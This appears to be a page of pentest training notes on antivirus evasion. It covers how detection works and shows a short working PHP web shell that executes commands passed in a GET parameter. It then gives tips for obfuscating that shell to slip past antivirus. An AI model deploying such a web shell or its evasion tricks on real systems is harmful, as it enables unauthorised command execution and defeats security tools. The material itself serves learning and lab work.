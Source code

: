 # 🎪 Antivirus Evasion

<figure><img src="../../../../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

### Detection methods:

When it comes to AV evasion we have two primary types available:

* On-Disk evasion
* In-Memory evasion

On-Disk evasion is when we try to get a file (be it a tool, script, or otherwise) saved on the target, then executed. This is very common when working with executable (`.exe`) files.

In-Memory evasion is when we try to import a script directly into memory and execute it there. For example, this could mean downloading a PowerShell module from the internet or our own device and directly importing it without ever saving it to the disk.

***

Generally speaking, detection methods can be classified into one of two categories:

* Static Detection
* Dynamic / Heuristic / Behavioural Detection

**Static** detection methods usually involve some kind of signature detection. A very rudimentary system, for example, would be taking the hashsum of the suspicious file and comparing it against a database of known malware hashsums.

The other form of static detection is called **Byte matching** and is another form of signature detection which works by searching through the program looking to match sequences of bytes against a known database of bad byte sequences.&#x20;

Where **static** virus malware detection methods look at the file itself, **dynamic** methods look at how the file _acts._

The AV lookes at pre-defined rules about what type of action is malicious (e.g. is the program reaching out to a known bad website, or messing with values in the registry that it shouldn't be?), the AV can see how the program intends to act

The suspicious software can outright be executed inside a sandbox environment under close supervision from the AV software. If the program acts maliciously then it is quarantined and flagged as malware

### PHP Payload Obfuscation

let's consider the following payload:

```php
<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```

Here we check to see if a GET parameter called "wreath" has been set. If so, we execute it using `shell_exec()`, wrapped inside HTML `<pre>` tags to give us a clean output. We then use `die()` to prevent the rest of the image from showing up as garbled text on the screen.

There are a variety of measures we could take here to try to bypass AV, including but not limited to:

* Switching parts of the exploit around so that they're in an unusual order
* Encoding all of the strings so that they're not recognisable
* Splitting up distinctive parts of the code (e.g. `shell_exec($_GET[...])`)

{% embed url="https://www.gaijin.at/en/tools/php-obfuscator" %}
to make your php unreadable and hard to reverse:
{% endembed %}


